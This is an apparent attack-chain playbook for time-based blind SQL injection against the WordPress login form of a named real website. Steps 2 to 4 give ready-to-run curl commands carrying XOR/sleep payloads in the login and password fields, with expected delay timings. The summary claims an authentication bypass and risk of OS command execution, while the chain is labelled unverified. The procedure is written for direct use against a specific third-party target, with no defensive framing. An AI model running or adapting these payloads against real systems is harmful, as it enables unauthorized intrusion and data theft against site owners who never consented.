

# Time-Based Blind SQL Injection in WordPress Login Form

Multi-stage attack chain demonstrating exploitation of a SQL injection vulnerability in the WordPress login form on www.acronis.cz/wp-login.php, enabling time-based blind SQLi to confirm the vulnerability and potentially bypass authentication.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[tools/curl]] for sending POST requests

### Target Environment

- WordPress site with MySQL backend
- Accessible login form at /wp-login.php
- No specific ports beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Network access to the target web application
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Identify Login Endpoint
procedure: [[procedures/Identify-WordPress-Login-Endpoint-for-SQLi]]

**Objective**: Locate the WordPress login form and prepare for SQL injection testing by targeting the POST request parameters.

**Instructions**: Navigate to the target site's wp-login.php or use a tool to inspect the login form. Focus on the 'log' and 'pwd' parameters in the POST request.

**Expected Output**: Confirmation of the endpoint /wp-login.php accepting POST data with log and pwd fields.

**Success Indicators**:
- Endpoint responds to login attempts
- Form parameters identified

### Step 2: Inject Time-Based Blind SQLi Payload
procedure: [[procedures/Inject-Time-Based-Blind-SQLi-Payload-into-Log]]

**Objective**: Test for SQL injection by injecting a time-delay payload into the log parameter to observe response time increases.

**Instructions**: Send a POST request to /wp-login.php with the payload in the log field using [[commands/curl-inject-sleep-15]]:

```bash
curl -X POST https://www.acronis.cz/wp-login.php -d "log=0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z&pwd=test&wp-submit=Log+In" -w "%{time_total}s"
```

Monitor the response time for delays.

**Expected Output**: Response time around 20 seconds indicating vulnerability.

**Success Indicators**:
- Delayed response correlating with sleep duration
- No immediate error but timing anomaly

### Step 3: Confirm with Varying Sleep Durations
procedure: [[procedures/Confirm-SQLi-with-Varying-Sleep-Durations]]

**Objective**: Verify the injection point by testing multiple sleep durations to establish a baseline and confirm consistent delays.

**Instructions**: Repeat injections with different payloads: Use [[commands/curl-inject-sleep-6]] for 6-second delay, [[commands/curl-inject-sleep-0]] for baseline, and [[commands/curl-inject-sleep-3]] for 3-second delay.

```bash
curl -X POST https://www.acronis.cz/wp-login.php -d "log=0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z&pwd=test&wp-submit=Log+In" -w "%{time_total}s"
```

Compare times: ~7s for sleep(6), ~1s for sleep(0).

**Expected Output**: Proportional response times to sleep values.

**Success Indicators**:
- Consistent delays across tests
- Baseline without sleep is quick

### Step 4: Capture and Analyze Full HTTP Request
procedure: [[procedures/Capture-and-Analyze-Full-HTTP-Request-for-SQLi]]

**Objective**: Document the complete request including additional parameters like g-recaptcha-response to replicate and demonstrate the exploit.

**Instructions**: Use a proxy or curl with verbose output to capture the full POST, injecting a 10-second sleep payload via [[commands/curl-capture-sleep-10]]:

```bash
curl -X POST -v https://www.acronis.cz/wp-login.php -d "log=0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z&pwd=0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z&wp-submit=Log+In&g-recaptcha-response=dummy" -w "%{time_total}s"
```

Analyze headers, body, and timing.

**Expected Output**: 12-second response with full request details.

**Success Indicators**:
- Full request logged
- Delay confirms injection in both parameters

## Attack Chain Summary

### Key Achievements

1. Confirmed SQLi in login form via time-based delays
2. Bypassed authentication potential
3. Demonstrated database interaction without errors
4. Highlighted risks to data integrity and OS command execution

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
